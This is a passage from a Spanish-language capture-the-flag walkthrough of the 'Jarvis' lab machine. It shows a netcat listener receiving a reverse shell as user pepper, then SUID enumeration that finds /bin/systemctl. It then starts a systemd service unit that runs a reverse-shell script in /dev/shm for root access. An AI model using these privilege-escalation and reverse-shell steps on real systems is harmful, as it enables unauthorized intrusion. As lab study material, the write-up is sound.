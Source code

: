 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.143] 39848
pepper@jarvis:/dev/shm$ whoami
whoami
pepper
pepper@jarvis:/dev/shm$
```

Ya nos encontramos dentro de la máquina como el usuario **pepper** y podemos visualizar la flag (user.txt). Ahora nos falta convertirnos en el usuario **root**; pero antes, vamos a hacer nuestro [Tratamiento de la tty](/tratamiento-tty) para trabajar mejor. Enumeraremos un poco el sitema a ver que hay:

```bash
pepper@jarvis:~$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:~$ sudo -l
[sudo] password for pepper: 
pepper@jarvis:~$ cd /
pepper@jarvis:/$ find \-perm -4000 2>/dev/null
./bin/fusermount
./bin/mount
./bin/ping
./bin/systemctl
./bin/umount
./bin/su
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/gpasswd
./usr/bin/chsh
./usr/bin/sudo
./usr/bin/chfn
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:/$
```

Vemos el binario `/bin/systemctl` tiene permisos SUID, por lo que podríamos ejecutarlo como el propietario del archivo, en este caso **root**

```bash
pepper@jarvis:/$ ls -l /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
pepper@jarvis:/$
```

Asi que vamos a crearnos un servicio y en caso de no saber como, podríamos echarle un ojo al siguiente recurso [Tecmint](https://www.tecmint.com/create-new-service-units-in-systemd/). Asi que en el directorio home del usuario **pepper** vamos a crear un directorio y dentro el archivo que necesitamos en donde le indicamos que ejecute nuestra reverse shell en `/dev/shm/`.

```bash
pepper@jarvis:/$ cd /home/pepper/
pepper@jarvis:~$ mkdir privesc
pepper@jarvis:~$ cd !$
cd privesc
pepper@jarvis:~/privesc$ nano privesc.service
pepper@jarvis:~/privesc$ cat privesc.service 
[Unit]
Description = Privesc

[Service]
Type=oneshot
ExecStart = /dev/shm/shell.sh

```